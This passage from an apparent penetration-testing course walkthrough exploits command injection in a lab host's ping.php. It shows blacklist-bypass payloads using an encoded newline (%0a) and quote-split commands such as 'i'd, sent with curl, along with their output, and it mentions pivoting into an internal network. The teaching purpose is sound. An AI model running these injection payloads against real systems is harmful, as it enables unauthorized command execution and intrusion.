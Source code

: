<p>Looking through the files, we find an authentication service and also that we are inside a container. The last option in the list is <code>connection_test</code>. Typing that in yields a <code>Success</code> message and nothing more. Going back over to Burp Suite and proxying the request, we see that a <code>GET</code> request is made to <code>/ping.php</code> for the localhost IP <code>127.0.0.1</code>, and the HTTP response shows a single successful ping attack. We can infer that the <code>/ping.php</code> script is running an operating command using a PHP function such as <code>shell_exec(ping -c 1 127.0.0.1)</code> or perhaps similar using the <a href="https://www.php.net/manual/en/function.system.php">system()</a> function to execute a command. If this script is coded improperly, it could easily result in a command injection vulnerability, so let's try some common payloads.</p>
<p>There seems to be some sort of filtering in place because trying standard payloads like <code>GET /ping.php?ip=%127.0.0.1;id</code> and <code>GET /ping.php?ip=%127.0.0.1|id</code> result in an <code>Invalid input</code> error, meaning there is probably a character blacklist in play. We can bypass this filter by using a line feed character <code>%0A</code> (or new-line character) as our injection operator following the methodology discussed in the <a href="https://academy.hackthebox.com/module/109/section/1036">Bypassing Space Filters</a> section. We can make a request appending the new-line character like so <code>GET /ping.php?ip=127.0.0.1%0a</code>, and the ping is still successful, meaning the character is not blacklisted.</p>
<p>We've won the first battle, but there seems to be another type of filter in place, as trying something like <code>GET /ping.php?ip=127.0.0.1%0aid</code> still results in an <code>Invalid input</code> error. Next, we can play around with the command syntax and see that we can bypass the second filter using single quotes. Switching to <code>cURL</code>, we can run the <code>id</code> command as follows:</p>
<pre><code class="language-shell-session">[!bash!]$ curl "http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0a'i'd"

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.045 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.045/0.045/0.045/0.000 ms
uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
</code></pre>
<p>We have achieved command execution as the <code>webdev</code> user. Digging around a bit more, we see that this host has multiple IP addresses, one of which places it inside the <code>172.16.8.0/23</code> network that was part of the initial scope. If we can gain stable access to this host, we may be able to pivot into the internal network and start attacking the Active Directory domain.</p>
<pre><code class="language-shell-session">[!bash!]$ curl "http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0a'i'fconfig"

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.048 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.048/0.048/0.048/0.000 ms

&lt;SNIP&gt;

ens160: flags=4163&lt;UP,BROADCAST,RUNNING,MULTICAST&gt;  mtu 1500
        inet 10.129.203.101  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 dead:beef::250:56ff:feb9:67a5  prefixlen 64  scopeid 0x0&lt;global&gt;
        inet6 fe80::250:56ff:feb9:67a5  prefixlen 64  scopeid 0x20&lt;link&gt;
        ether 00:50:56:b9:67:a5  txqueuelen 1000  (Ethernet)
        RX packets 10055  bytes 1041358 (1.0 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2316  bytes 4030180 (4.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
